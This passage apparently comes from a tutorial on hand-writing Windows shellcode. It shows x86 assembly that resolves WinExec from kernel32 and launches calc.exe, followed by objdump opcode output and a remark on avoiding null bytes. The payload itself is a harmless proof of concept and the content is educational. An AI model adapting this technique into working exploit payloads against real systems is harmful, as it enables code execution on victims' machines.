 ```nasm
	        mov eax, [edx + eax*4] 	; eax = RVA of function = var20 + (ordinal * 4)
	        add eax, ebx 		; eax = address of WinExec = 
	        			; = kernel32.dll base address + RVA of WinExec

	        xor edx, edx
		push edx		; null termination
		push 6578652eh
		push 636c6163h
		push 5c32336dh
		push 65747379h
		push 535c7377h
		push 6f646e69h
		push 575c3a43h
		mov esi, esp		; esi -> "C:\Windows\System32\calc.exe"

		push 10  		; window state SW_SHOWDEFAULT
		push esi 		; "C:\Windows\System32\calc.exe"
		call eax 		; WinExec

		add esp, 46h		; clear the stack

	.end:
		
		pop ebp 		; restore all registers and exit
		pop edi
		pop esi
		pop edx
		pop ecx
		pop ebx
		pop eax
		ret
```

I opened it in IDA to show you a better visualization. The one showed in IDA doesn't save all the registers, I added this later, but was too lazy to make new screenshots.

![ida01](/images/windows_shellcode/ida01.png)  
![ida02](/images/windows_shellcode/ida02.png)  
![ida03](/images/windows_shellcode/ida03.png)

Use [fasm](https://flatassembler.net/) to compile, then decompile and extract the opcodes. We got lucky and there are no null bytes.

```bash
objdump -d -M intel shellcode.exe
```

```
  401000:       50                      push   eax
  401001:       53                      push   ebx
  401002:       51                      push   ecx
  401003:       52                      push   edx
  401004:       56                      push   esi
  401005:       57                      push   edi
  401006:       55                      push   ebp
  401007:       89 e5                   mov    ebp,esp
  401009:       83 ec 18                sub    esp,0x18
  40100c:       31 f6                   xor    esi,esi
  40100e:       56                      push   esi
  40100f:       6a 63                   push   0x63
  401011:       66 68 78 65             pushw  0x6578
  401015:       68 57 69 6e 45          push   0x456e6957
  40101a:       89 65 fc                mov    DWORD PTR [ebp-0x4],esp
  40101d:       31 f6                   xor    esi,esi
```